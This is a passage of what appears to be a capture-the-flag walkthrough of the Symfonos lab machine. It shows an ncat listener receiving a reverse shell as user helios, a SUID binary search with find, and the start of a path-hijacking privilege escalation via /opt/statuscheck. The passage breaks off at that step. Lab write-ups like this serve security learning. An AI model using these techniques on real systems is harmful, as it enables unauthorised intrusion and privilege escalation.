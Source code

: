 		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 192.168.236.8.
		Ncat: Connection from 192.168.236.8:37968.
		$ whoami;id
		whoami;id
		helios
		uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
		```
		![](images/Pasted%20image%2020220124034942.png)

# Privilege Escalation
## Root - Via SUID Binary (Path Hijacking)
1. Search for SUID binaries
	```
	helios@symfonos:/var/www/html/h3l105/wp-content/plugins/mail-masta/inc/campaign$ find / -perm -4000 2>/dev/null 
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/openssh/ssh-keysign
	/usr/bin/passwd
	/usr/bin/gpasswd
	/usr/bin/newgrp
	/usr/bin/chsh
	/usr/bin/chfn
	/opt/statuscheck <- Suspicious
	/bin/mount
	/bin/umount
	/bin/su
	/bin/ping
	```
2. Execute `/opt/statuscheck`
	```
	helios@symfonos:/var/www/html/h3l105/wp-content/plugins/mail-masta/inc/campaign$ /opt/statuscheck
	HTTP/1.1 200 OK
	Date: Mon, 24 Jan 2022 03:51:47 GMT
	Server: Apache/2.4.25 (Debian)
	Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
	ETag: "148-58c6b9bb3bc5b"
	Accept-Ranges: bytes
	Content-Length: 328
	Vary: Accept-Encoding
	Content-Type: text/html
	```
	- `curl` localhost?
3. View contents of `/opt/statuscheck` w/ `strings`